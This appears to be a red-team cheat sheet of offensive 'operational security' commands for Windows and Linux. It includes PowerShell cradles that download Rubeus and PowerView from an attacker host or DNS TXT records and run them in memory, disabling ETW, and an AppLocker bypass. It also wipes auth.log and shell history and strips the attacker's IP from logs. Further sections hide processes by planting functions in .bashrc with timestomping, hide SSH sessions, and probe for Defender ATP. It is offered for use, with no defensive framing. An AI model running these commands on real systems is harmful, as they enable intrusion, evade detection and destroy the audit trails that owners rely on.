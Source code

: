 # Operational Security

## Table of Contents

- [.NET Reflection](#net-reflection)
- [Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)](#avoid-invoke-expression-iex-and-invoke-webrequest-iwr)
- [Bypassing Event Tracing for Windows (ETW)](#bypassing-event-tracing-for-windows-etw)
- [Clear Linux History](#clear-linux-history)
- [Hiding SSH Sessions](#hiding-ssh-sessions)
- [Logfile Cleaning](#logfile-cleaning)
- [LOLBAS](#lolbas)
- [Process Hiding](#process-hiding)
- [ProxyChains](#proxychains)
- [Save File Deletion](#save-file-deletion)
- [Sneaky Directory](#sneaky-directory)
- [Windows Advanced Threat Protection (ATP)](#windows-advanced-threat-protection-atp)

## .NET Reflection

```console
PS C:\> $d = (New-Object System.Net.WebClient).DownloadData('http://<LHOST>/Rubeus.exe')
PS C:\> $a = [System.Reflection.Assembly]::Load($d)
PS C:\> [Rubeus.Program]::Main("-h".Split())
```

## Avoid Invoke-Expression (IEX) and Invoke-WebRequest (IWR)

Instead of using `IEX` and `IWR` within assessments, try this:

* Host a text record with the payload at one of the unburned domains

| Name | Type | Value | TTL |
| --- | --- | --- | --- |
| cradle1 | TXT | "IEX(New-Object Net.WebClient).DownloadString($URI)" | 3600 |

```console
C:\> powershell . (nslookup -q=txt cradle1.domain.example)[-1]
```

```console
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
```

```console
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1"""";'(nslookup -q=txt cradle1.domain.example)[-1]';Get-Domain'
```

Example with `PowerSharpPack`.

```console
C:\> powershell
PS C:\> (nslookup -q=txt cradle1.domain.example)[-1]
PS C:\> powershell '$URI=""""https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1"""";'(nslookup -q=txt cradle1.example.domain)[-1]';PowerSharpPack'
```

### Concatinate Payloads

```console
PS C:\> powershell . (-Join (Resolve-DnsName -Type txt https://<DOMAIN>).Strings)
```

## Bypassing Event Tracing for Windows (ETW)

```console
C:\> set COMPlus_ETWEnabled=0
```

## Clear Linux History

```console
* echo "" > /var/log/auth.log
* echo "" > ~/.bash_history
* rm ~/.bash_history
* history -c
* export HISTFILESIZE=0
* export HISTSIZE=0
* kill -9 $$
* ln -sf /dev/null ~/.bash_history
* ln -sf /dev/null ~/.bash_history && history -c && exit
```

## Hiding SSH Sessions

```console
$ ssh -o UserKnownHostsFile=/dev/null -T <USERNAME>@<RHOST> 'bash -i'
```

- It is not added to `/var/log/utmp`
- It won't appear in the output of `w` or `who` commands
- No `.profile` or `.bash_profile` modification needed

## Logfile Cleaning

```console
$ cd /dev/shm; grep -v '<RHOST>' /var/log/auth.log > <FILE>.log; cat <FILE>.log > /var/log/auth.log; rm -f <FILE>.log
```

Notice that this modification of the logfile is most likely to be spotted.

## LOLBAS

### AppLocker Bypass

`<FILE>.url`:

```console
[internetshortcut]
url=C:\Windows\system32\calc.exe
```

```console
C:\Windows\system32> rundll32 C:\Windows\system32\ieframe.dll,OpenURL C:\<FILE>.url
```

### Port Forwarding with netsh

```console
C:\> netsh interface portproxy add v4tov4 listenaddress=<RHOST> listenport=<RPORT> connectaddress=<LHOST> connectport=<LPORT>
```

## Process Hiding

```console
$ echo 'ps(){ command ps "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'top(){ command top "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'htop(){ command htop "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'procs(){ command procs "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pgrep(){ command pgrep "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
$ echo 'pstree(){ command pstree "$@" | exec -a GREP grep -Fv -e <COMMAND> -e GREP; }' >> ~/.bashrc && touch -r /etc/passwd ~/.bashrc
```

## ProxyChains

> https://github.com/haad/proxychains

```console
$ proxychains <APPLICATION>
```

### Configuration

```console
socks4 metasploit
socks5 ssh
socks4  127.0.0.1 1080
socks5  127.0.0.1 1080
```

### Proxychain the whole Terminal Input

```console
$ proxychains zsh
$ nmap -p 80 <RHOST>
```

## Save File Deletion

```console
$ shred -z <FILE>
```

Alternatively:

```console
$ FN=<FILE>; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

## Sneaky Directory

```console
$ sudo mkdir -p /mnt/.../<DIRECTORY>
```

## Windows Advanced Threat Protection (ATP)

### Information

Process:
- MsSense.exe

Service:
- Display name: Windows Defender Advanced Threat Protection Service

Name:
- Sense

Registry:
- HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection

File Paths:
- C:\Program Files\Windows Defender Advanced Threat Protection\

### Check Registry

```console
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows Advanced Threat Protection /s
```

### Check Service

```console
C:\> sc query sense
PS C:\> Get-Service Sense
```

### Process

```console
C:\> tasklist | findstr /i mssense.exe
```
